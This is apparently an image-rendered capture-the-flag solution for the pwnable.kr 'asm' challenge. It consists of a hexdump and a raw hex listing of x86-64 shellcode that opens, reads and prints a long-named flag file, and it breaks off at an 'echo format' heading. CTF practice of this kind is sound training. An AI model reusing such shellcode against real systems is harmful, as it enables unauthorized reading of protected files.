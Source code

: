 ```
000000b0  c7 48 89 c2 48 31 c0 48  ff c0 0f 05 e8 c1 ff ff  |.H..H1.H........|
000000c0  ff 2e 2f 74 68 69 73 5f  69 73 5f 70 77 6e 61 62  |../this_is_pwnab|
000000d0  6c 65 2e 6b 72 5f 66 6c  61 67 5f 66 69 6c 65 5f  |le.kr_flag_file_|
000000e0  70 6c 65 61 73 65 5f 72  65 61 64 5f 74 68 69 73  |please_read_this|
000000f0  5f 66 69 6c 65 2e 73 6f  72 72 79 5f 74 68 65 5f  |_file.sorry_the_|
00000100  66 69 6c 65 5f 6e 61 6d  65 5f 69 73 5f 76 65 72  |file_name_is_ver|
00000110  79 5f 6c 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 6f  |y_looooooooooooo|
00000120  6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 6f  |oooooooooooooooo|
00000130  6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 6f  |oooooooooooooooo|
00000140  6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 6f  |oooooooooooooooo|
00000150  6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 30  |ooooooooooooooo0|
00000160  30 30 30 30 30 30 30 30  30 30 30 30 30 30 30 30  |0000000000000000|
00000170  30 30 30 30 30 30 30 30  6f 6f 6f 6f 6f 6f 6f 6f  |00000000oooooooo|
00000180  6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 30  |ooooooooooooooo0|
00000190  30 30 30 30 30 30 30 30  30 30 30 6f 30 6f 30 6f  |00000000000o0o0o|
000001a0  30 6f 30 6f 30 6f 30 6f  6e 67 00 00 00 00 00 00  |0o0o0o0ong......|
```
# in pure hex : 
```
eb 3a 5d 48 ff c0 48 ff  c0 48 89 ef 48 31 f6 48
31 d2 0f 05 48 89 c7 48  31 c0 48 89 ee 48 31 c9
b1 e9 48 ff c5 e2 fb b2  ff 0f 05 48 31 ff 48 ff
c7 48 89 c2 48 31 c0 48  ff c0 0f 05 e8 c1 ff ff
ff 2e 2f 74 68 69 73 5f  69 73 5f 70 77 6e 61 62
6c 65 2e 6b 72 5f 66 6c  61 67 5f 66 69 6c 65 5f
70 6c 65 61 73 65 5f 72  65 61 64 5f 74 68 69 73
5f 66 69 6c 65 2e 73 6f  72 72 79 5f 74 68 65 5f
66 69 6c 65 5f 6e 61 6d  65 5f 69 73 5f 76 65 72
79 5f 6c 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 6f
6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 6f
6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 6f
6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 6f
6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 30
30 30 30 30 30 30 30 30  30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30  6f 6f 6f 6f 6f 6f 6f 6f
6f 6f 6f 6f 6f 6f 6f 6f  6f 6f 6f 6f 6f 6f 6f 30
30 30 30 30 30 30 30 30  30 30 30 6f 30 6f 30 6f
30 6f 30 6f 30 6f 30 6f  6e 67 00 00 00 00 00 00
```
# in echo format